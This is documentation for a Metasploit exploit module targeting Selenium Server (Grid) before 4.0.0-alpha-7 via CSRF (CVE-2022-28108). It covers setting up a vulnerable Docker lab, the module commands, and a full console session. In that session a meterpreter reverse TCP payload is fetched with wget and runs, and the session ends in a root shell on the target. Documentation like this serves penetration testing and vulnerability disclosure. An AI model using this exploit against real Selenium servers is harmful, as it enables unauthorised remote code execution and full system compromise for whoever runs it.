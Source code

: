 ## Vulnerable Application

Selenium Server (Grid) before 4 allows CSRF because it permits non-JSON content types
such as application/x-www-form-urlencoded, multipart/form-data, and text/plain.

The vulnerability affects:

    * Selenium Server (Grid) before 4.0.0-alpha-7

This module was successfully tested on:

    * selenium/standalone-firefox:3.141.59 installed with Docker on Ubuntu 20.0.4
    * selenium/standalone-firefox:4.0.0-alpha-6-20200730 installed with Docker on Ubuntu 20.0.4


### Installation

1. `docker pull selenium/standalone-firefox:3.141.59`

2. `docker run -d -p 4444:4444 -p 7900:7900 --shm-size="2g" selenium/standalone-firefox:3.141.59`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > options

Module options (exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    4444             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      ysvWeotTGNTE     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4445
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version 3.141.59 detected, which is vulnerable
[+] The target appears to be vulnerable.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:34690) at 2024-12-28 12:17:05 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : Ubuntu 20.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

